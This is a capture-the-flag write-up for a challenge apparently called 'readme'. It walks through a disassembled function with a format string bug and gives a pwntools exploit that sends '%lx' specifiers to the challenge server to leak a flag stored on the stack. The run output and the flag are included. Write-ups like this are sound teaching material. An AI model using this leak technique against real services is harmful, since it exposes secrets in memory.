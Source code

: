 ```asm
   0x0000000000000890 <+54>:    mov    esi,0x1c
   0x0000000000000895 <+59>:    mov    rdi,rax
   0x0000000000000898 <+62>:    call   0x720 <fgets@plt>
   0x000000000000089d <+67>:    mov    rax,QWORD PTR [rbp-0x58]
   0x00000000000008a1 <+71>:    mov    rdi,rax
   0x00000000000008a4 <+74>:    call   0x6e0 <fclose@plt>
   0x00000000000008a9 <+79>:    lea    rdi,[rip+0x10f]        # 0x9bf
   0x00000000000008b0 <+86>:    call   0x6d0 <puts@plt>
   0x00000000000008b5 <+91>:    mov    rdx,QWORD PTR [rip+0x200754]        # 0x201010 <stdin@@GLIBC_2.2.5>
   0x00000000000008bc <+98>:    lea    rax,[rbp-0x30]
   0x00000000000008c0 <+102>:    mov    esi,0x1e
   0x00000000000008c5 <+107>:    mov    rdi,rax
   0x00000000000008c8 <+110>:    call   0x720 <fgets@plt>
   0x00000000000008cd <+115>:    lea    rdi,[rip+0x104]        # 0x9d8
   0x00000000000008d4 <+122>:    mov    eax,0x0
   0x00000000000008d9 <+127>:    call   0x700 <printf@plt>
   0x00000000000008de <+132>:    lea    rax,[rbp-0x30]
   0x00000000000008e2 <+136>:    mov    rdi,rax
   0x00000000000008e5 <+139>:    mov    eax,0x0
   0x00000000000008ea <+144>:    call   0x700 <printf@plt>
   0x00000000000008ef <+149>:    nop
   0x00000000000008f0 <+150>:    mov    rax,QWORD PTR [rbp-0x8]
   0x00000000000008f4 <+154>:    xor    rax,QWORD PTR fs:0x28
   0x00000000000008fd <+163>:    je     0x904 <vuln+170>
   0x00000000000008ff <+165>:    call   0x6f0 <__stack_chk_fail@plt>
   0x0000000000000904 <+170>:    leave  
   0x0000000000000905 <+171>:    ret    
End of assembler dump.
gef➤  
```

We can see it opens the flag.txt file via fopen and read the flag from the file and store it on the stack, then it takes he input via fgets and then print the given input via printf without any format specifier, this proposed the format string vulnerability and with that we can leak the values from the stack, since the flag is also stored on the stack, we can just as well leak it, using the following exploit, we can get flag:-

```py

from pwn import *
from binascii import unhexlify

p = remote("dctf-chall-readme.westeurope.azurecontainer.io", 7481)
p.recvline()
p.sendline("%8$lx-%9$lx-%10$lx-%11$x")
p.recvuntil("hello ")
output = p.recvline().strip().split(b"-")
flag = [unhexlify(x)[::-1] for x in output]
print(b"".join(flag)+b"}")
p.close()

Running the exploit:-
r

❯ python3 readme.py
[+] Opening connection to dctf-chall-readme.westeurope.azurecontainer.io on port 7481: Done
b'dctf{n0w_g0_r3ad_s0me_b00k5}'
[*] Closed connection to dctf-chall-readme.westeurope.azurecontainer.io port 7481
```
